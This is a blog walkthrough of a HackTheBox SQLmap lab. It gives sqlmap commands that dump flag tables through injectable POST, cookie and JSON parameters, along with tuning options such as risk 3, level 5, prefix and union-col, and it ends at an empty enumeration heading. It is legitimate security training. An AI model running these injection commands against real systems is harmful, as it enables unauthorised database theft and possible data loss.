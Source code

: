 ```yaml
---
title: "SQLmap Essentials - HackTheBox"
date: 2025-01-07 00:00:00 +0300
categories: [SQLmap Essentials]
tags: [SQLmap Essentials, cheatsheet, HackTheBox]
---
```



# SQLmap Essentials 

Hello there, welcome to my first blog of the year. 

This lab series is part of the [Bug Bounty Hunter Path](https://academy.hackthebox.com/path/preview/bug-bounty-hunter) of HackTheBox. This module aims to teach you the basics of using SQLMap to discover various types of SQL Injection vulnerabilities, all the way to the advanced enumeration of databases to retrieve all data of interest.

While I wait for the final skill assessment payload to get the flag which is taking a little too long I decided to write this walkthrough. It is among the labs I enjoyed much during the Bug Bounty Path.

I hope you enjoy perusing this walkthrough as much as I did writing it.

Also find a cheatsheet of the lab the end of the blog

# Running SQLmap on a HTTP Request

We are provided with a target that leads to a page that displays links to the different Cases respective of the questions.
 
 ![Alt Text](../assets/img/SQLMap-Essentials/sqlmap-essentials1.png)



Questions:


`1. What's the contents of table flag2? (Case #2)`

There is an 'id' parameter that is used to retrive rows of a table from a database. 

This indicates it is a POST request. This might help us in writing the command.

`sqlmap  'http://SERVERIP:PORT/case2.php' --data='id=*1' --batch --dump -T flag2` 

From the command:


    --data - speecifies that the HTTP data provided should be sent in a POST request.

    id=*1 - This is the parameter of interest. The asterisk is a custom injection marker. 

    --batch - allows the running of the command without any user input.

    --dump - displays data from a specified database table.

    -T - specifies database table.


`2. What's the contents of table flag3? (Case #3)`

The cookie value id is vulnerable.

`sqlmap 'http://SERVERIP:PORT/case3.php'  --cookie='id=1*' --batch --dump  -T flag3`

From the command:

    --cookie - specifies the HTTP cookies that should be sent with the POST requests.


`3. What's the contents of table flag4? (Case #4) `

There is a vulnerability in a JSON value for data: id. 

While JSON data is parsed differently in a HTTP request we may use a tool like BURP or Curl to capture the raw HTTP request and output it to a file. We then use the file in the command.

We will use Burpsuite for this.

![Alt Text](../assets/img/SQLMap-Essentials/sqlmap-essentials2.png)


`sqlmap -r req.txt  --batch --dump  -T flag4 `

While it is applicable in this lab, we may also use the following command.

`sqlmap -u 'http://94.237.50.242:49319/case4.php'  --data={'"id":1'} --batch --dump  -T flag4`

# Attack Tuning

Sqlmap comes right off the bat as a very strong tool, though it is capable to do more with some tuning by using flags that increase the accuracy of your scan. These may include flags for Level/Risk, Status Codes, Text and Techniques etc.

In this section we will use some of the above-mentioned flags that will dig deeper in our scans inorder to achive our goals. Follow me as we do it.

Questions

`1. What's the contents of table flag5? (Case #5) `

This challenges indicaes an OR SQLi vulnerability for the parameter 'id'. For this we will have to use the Level/Risk flags by raising the risk level. This is done because OR payloads are inherently dangerous in a default run, where underlying vulnerable SQL statements are actively modifying the database content 

`sqlmap -u http://83.136.248.62:52853/case5.php?id=1 -T flag5 --no-cast --dump --batch --risk 3 --level 5`

`sqlmap -u http://83.136.248.62:52853/case5.php?id=1 -T flag5 --no-cast --dump --batch --risk 3 --level 5 -dbs testdb -dbms MYSQL`

From the command:

     --no-cast - This flag ensures that you get the correct content. 
     --risk - [1-3]  extends the risk of causing problems at the target side (i.e., risk of database entry loss or denial-of-service).
     --level - [1-5] extends  boundaries being used, based on their expectancy of success (i.e., the lower the expectancy, the higher the level).
     --dbs - The database in question.
     --dbms - The underlying Database schema being used.

`2. What's the contents of table flag6? (Case #6)`

The challenge has a vulnerable parameter col. This challenge requires the use of the prefix flag.

`sqlmap -u 'http://83.136.248.62:52853/case6.php?col=id' -T flag6 --dump --batch --risk 3 --level 5 --prefix='`)'`

From the command:

    --prefix -  used to specify a prefix that will be added to the payloads sent by SQLmap during its testing process

`3. What's the contents of table flag7? (Case #7)`

The challenge has a vulnerable parameter at id and it is vulnerable using a UNION Query based technique. This means that we have to use the Technique flag.

`sqlmap -u 'http://83.136.248.62:52853/case7.php?id=1' -T flag7 --dump --batch --risk 3 --level 5 --union-col=5`

From the Command:

    --union-col=5 - From the provided exercise we can manually count the columns in the table, so we include that in the command

# Database Enumeration









